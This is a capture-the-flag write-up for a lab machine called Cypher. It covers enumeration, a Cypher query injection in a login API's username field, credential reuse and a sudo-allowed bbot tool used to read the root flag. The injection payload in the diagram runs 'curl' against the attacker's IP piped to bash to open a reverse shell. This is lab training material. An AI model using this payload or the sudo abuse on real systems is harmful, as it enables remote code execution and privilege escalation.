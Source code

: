 # 🔮Cypher

## 🧠Summary
> After web and service enumeration revealed a small attack surface, I discovered an overlooked component that accepted unsanitised input, giving me remote code execution and an initial low-privilege shell. Local recon exposed clear-text credentials for a second user, and a misconfigured sudo-allowed utility let me read restricted files—ultimately granting access to both user and root flags.

## ↘️ASCII Visual
```text
[ Nmap Scan ]
     |
     v
[ Ports 80 & 22 Open ]
     |
     v
[ Web Recon ]
  └──> Login page (no register)
  └──> dirsearch → /testing/
               |
               v
     [ .jar Downloaded ]
         └── Decompiled → Input sanitization flaw (url param)

               |
               v
   [ Reverse Shell Injection ]
     └── "username":"intruder' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.8/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"tester"
     └── Injected via POST /api/auth in Burp
               |
               v
        [ Shell as www-data ]
               |
               v
     [ Found bbot_scan file with creds ]
               |
               v
     [ su graphasm → Got user flag ]
               |
               v
   [ sudo -l → Can run /usr/bin/bbot ]
     └── Used: sudo bbot -t /root/root.txt -o /intruder
               |
               v
     [ Dumped root.txt → Got root flag 🏴 ]
```

## 🔎Nmap scan
- Did a nmap scan to find the open ports
- The result revealed port 80 and port 22 opened
  ![](./screenshot/nmap_scan.png)

## 🌐Web enumeration
- Did web enumeration using dirsearch and found out that a page testing exist
- Went into that page to find a .jar file that has the java .class code
  ![](./screenshot/java.png)

## 📌Loop hole
- Used a online decompiler to view the code and found a critical vulnerablity 
  ![](./screenshot/java.png)
- It failed to sanitize the url field
- Started a Burp Suite session and and checked the /login page
- Found that the entered username and password goes through a /api/auth endpoint
  ![](./screenshot/burp_suite.png)
- Created a json script inside the header tag containing a malicious code
  ![](./screenshot/malicious.png)
- Got the reverse shell

## ⚓Foothold
- Entered the machine and checked the /etc/passwd file found a user called graphasm
  ![](./screenshot/cat.png)
- Tried to gain the root flag but failed then found a file in home dir called bbot_scan
- Opened it and found a password inside it
- Did "su graphasm" and used the obtained password to gain access as a user and gained the user flag
  ![](./scrrenshot/user.png)
- Then checked the sudo -l and found that user has root prevelage to run bbot
- ![](./screenshot/bbot.png)
- Checked bbot and found it is an OSINT tool so used the command
  ```bash
  sudo bbot -t /root/root.txt -o /intruder
  ```
- The tool dumped the contents inside the intruder directory finally gaining root flag 🏴‍☠️
